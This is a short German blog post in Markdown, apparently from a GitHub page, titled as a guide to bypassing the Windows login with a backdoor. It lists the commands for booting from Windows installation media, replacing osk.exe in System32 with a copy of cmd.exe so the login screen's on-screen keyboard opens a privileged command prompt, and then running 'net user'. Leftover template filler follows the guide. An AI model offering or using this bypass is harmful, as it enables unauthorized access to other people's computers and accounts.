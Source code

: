 ```yaml
---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---
```


## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg)
    
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)

4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)

5. Auf C-Platte wechseln

```
C:
```

6. Dann in den Windows Ordner

```
cd Windows\System32
```

7. osk = on screen keyboard (Bildschirmtastatur)

```
dir osk.exe
```

8. Original umbenennen

```
rename osk.exe osk.orig.exe
```

9. cmd.exe zu osk.exe kopieren

```
copy cmd.exe osk.exe

```

10. überprüfen

```
dir osk*
```

10. PC neustartem

11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben

12. net user






[no.link](http://no.struggle.zone)

<del>lorem ipsum</del>

lorem __impsum__

lorem _ipsum_

<ins>lorem impsum</ins>

`lorem` - `ipsum`

##### Test
5

#### Test
4

### Test
3
  
## Test
2

* A
* B
* C
* D

1. A
2. B
3. C

## Image
![Thumper](https://i.imgur.com/DMCHDqF.jpg)

## Zitat
> Lorem ipsum dolor sit amet, consectetur adipiscing elit
